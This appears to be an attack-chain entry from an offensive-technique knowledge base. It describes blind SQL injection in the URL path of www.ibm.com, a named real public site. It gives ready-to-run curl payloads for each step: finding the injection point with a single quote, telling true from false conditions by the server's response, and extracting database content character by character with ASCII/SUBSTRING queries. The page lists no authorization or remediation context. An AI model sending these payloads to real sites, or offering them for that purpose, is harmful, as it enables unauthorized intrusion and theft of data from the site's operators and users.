

---
tags:
  - sqli
  - blind-sqli
  - web
  - exfiltration
  - ibm
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Identify-SQL-Injection-Point-in-URL-Path]]'
  - '[[procedures/Observe-Response-Differences-for-Blind-SQLi]]'
  - '[[procedures/Exploit-Blind-SQLi-with-Boolean-Error-Based-Technique]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T03:46:26.367Z'
description: >-
  A multi-step attack exploiting a blind SQL injection vulnerability in the URL
  path processing of www.ibm.com to exfiltrate database data using boolean
  error-based techniques.
skill_level: intermediate
impact_level: high
id: d54a073a-e251-4841-b6f1-d7827c6742f6
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# Blind SQL Injection in URL Path for Database Exfiltration on IBM.com

Multi-stage attack chain demonstrating exploitation of a blind SQL injection vulnerability in URL path processing on www.ibm.com, allowing boolean-based data exfiltration from the backend database.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~30 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser or [[commands/curl-send-request]] for testing payloads

### Target Environment

- Web platform
- Publicly accessible website (www.ibm.com)
- No authentication required

### Initial Access Requirements

- Internet access
- No credentials needed
- Direct network access to the target

## Detailed Attack Procedures

### Step 1: Identify SQL Injection Point
procedure: [[procedures/Identify-SQL-Injection-Point-in-URL-Path]]

**Objective**: Locate the SQL injection vulnerability in the URL path by injecting a single quote to trigger SQL errors.

**Instructions**: Use [[commands/curl-send-request]] to inject a single quote immediately after the leading slash in any path on www.ibm.com.

```bash
curl -i "https://www.ibm.com/'"
```

**Expected Output**: A 500 Internal Server Error indicating SQL syntax disruption.

**Success Indicators**:
- 500 error response confirming injection point
- No normal page load

### Step 2: Observe Response Differences
procedure: [[procedures/Observe-Response-Differences-for-Blind-SQLi]]

**Objective**: Determine how to distinguish between true and false conditions in blind SQLi by analyzing server responses.

**Instructions**: Test payloads that result in successful vs. failed SQL conditions using [[commands/curl-send-request]]. For example, inject a payload that always succeeds vs. one that fails.

```bash
curl -i "https://www.ibm.com/'AND'1'='1"
curl -i "https://www.ibm.com/'AND'1'='2"
```

**Expected Output**: Endless redirect for true conditions, 500 error for false.

**Success Indicators**:
- Differentiated responses (redirect vs. error)
- Confirmed boolean-based exploitation feasibility

### Step 3: Exploit with Boolean Technique
procedure: [[procedures/Exploit-Blind-SQLi-with-Boolean-Error-Based-Technique]]

**Objective**: Exfiltrate database data bit by bit using conditional SQL statements without spaces or line breaks.

**Instructions**: Craft payloads to query database content, such as checking character existence, using [[commands/curl-send-conditional-payload]]. Iterate for each bit/character.

```bash
curl -i "https://www.ibm.com/'AND(ASCII(SUBSTRING((SELECT@@version),1,1))>64)AND'1'='1"
```

**Expected Output**: Redirect for true (character match), 500 for false, allowing binary search exfiltration.

**Success Indicators**:
- Successful distinction of data values
- Gradual reconstruction of database content

## Attack Chain Summary

### Key Achievements

1. Identified URL path as SQLi entry point
2. Leveraged response differences for blind exploitation
3. Enabled critical data exfiltration without direct output

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
